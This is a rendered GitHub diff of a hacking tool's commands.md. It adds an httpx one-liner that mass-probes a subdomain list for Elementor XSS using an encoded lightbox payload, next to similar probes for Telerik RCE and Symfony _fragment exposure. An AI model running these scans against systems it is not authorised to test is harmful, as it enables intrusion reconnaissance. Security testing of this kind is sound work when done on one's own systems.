

Before and after one commit to Fekerineamar/HackyTool, a Markdown page: commands.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/commands.md
+++ b/commands.md
@@ -21,6 +21,9 @@
 ## Telerik RCE(CVE-2017-11317)
     cat subs.txt | /workspace/go/bin/httpx -path "/Telerik.Web.UI.WebResource.axd?type=rau" -ms '"RadAsyncUpload handler is registered succesfully' -t 200 -o telerik2.txt
 
+## Elementor Xss
+    cat subs.txt | httpx -path "#elementor-action:action=lightbox&settings=eyJ0eXBlIjoibnVsbCIsImh0bWwiOiI8aDE+YWtpcmE8L2gxPiJ9" -ms <h1>akira</h1> -o elementorXss.txt -t 200
+
 ## Symphonic
     cat subs.txt | httpx -path "_fragment" -ms 'Oops An Error Occurred' -o symphonic.txt -t 200
 
```
